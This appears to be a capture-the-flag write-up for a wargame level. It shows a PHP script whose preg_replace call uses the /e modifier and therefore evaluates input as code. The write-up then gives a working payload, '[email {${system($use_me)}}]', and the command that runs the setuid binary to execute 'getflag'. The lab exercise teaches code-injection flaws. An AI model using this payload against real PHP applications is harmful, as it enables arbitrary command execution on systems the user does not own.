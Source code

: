 # level 09

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

With some research we find that "preg_replace" is deprecated due to security
problem, because in combination with "/e" it evaluate the string as php and
execute it. So we could use "system()" a php function that execute bash command
and print the output to the terminal to run "getflag".

test.txt:

```php
[email {${system($use_me)}}]
```

then run:

```bash
/home/flag09/flag09 /home/level09/test.txt getflag
```
